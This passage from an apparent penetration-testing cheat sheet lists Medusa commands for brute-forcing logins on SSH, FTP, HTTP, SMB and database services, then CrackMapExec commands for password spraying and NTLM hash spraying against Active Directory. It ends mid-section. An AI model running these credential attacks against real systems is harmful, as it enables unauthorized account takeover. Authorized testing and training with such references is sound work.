 ```bash
# Basic authentication testing
medusa -h target_ip -u admin -p admin -M ssh

# User and password file combination
medusa -H targets.txt -U users.txt -P passwords.txt -M ssh

# Multiple protocols
medusa -h target_ip -U users.txt -P passwords.txt -M ssh -M ftp -M telnet

# HTTP authentication
medusa -h target_ip -u admin -P passwords.txt -M http -m DIR:/admin

# SMB authentication
medusa -h target_ip -U users.txt -P passwords.txt -M smbnt

# Database authentication
medusa -h target_ip -u root -P passwords.txt -M mysql
medusa -h target_ip -u postgres -P passwords.txt -M postgres

# Thread control
medusa -t 20 -h target_ip -U users.txt -P passwords.txt -M ssh

# Verbose logging
medusa -v 6 -h target_ip -U users.txt -P passwords.txt -M ssh

# Resume file
medusa -Z h:u:p -h target_ip -U users.txt -P passwords.txt -M ssh

# Output file
medusa -O medusa_results.txt -h target_ip -U users.txt -P passwords.txt -M ssh

# Continue after success
medusa -C -h target_ip -U users.txt -P passwords.txt -M ssh

# Password delay
medusa -s -h target_ip -U users.txt -P passwords.txt -M ssh
```

### 4.3 CrackMapExec: Active Directory Attack Platform

```bash
# SMB authentication testing
crackmapexec smb target_ip -u users.txt -p passwords.txt

# Password spraying
crackmapexec smb targets.txt -u administrator -p Password123

# Hash spraying
crackmapexec smb targets.txt -u administrator -H ntlm_hash

# Continue on success
crackmapexec smb targets.txt -u users.txt -p passwords.txt --continue-on-success

# Local authentication
crackmapexec smb targets.txt -u users.txt -p passwords.txt --local-auth

# Domain authentication
crackmapexec smb targets.txt -d domain.com -u users.txt -p passwords.txt

# WinRM authentication
crackmapexec winrm targets.txt -u users.txt -p passwords.txt

# SSH authentication
```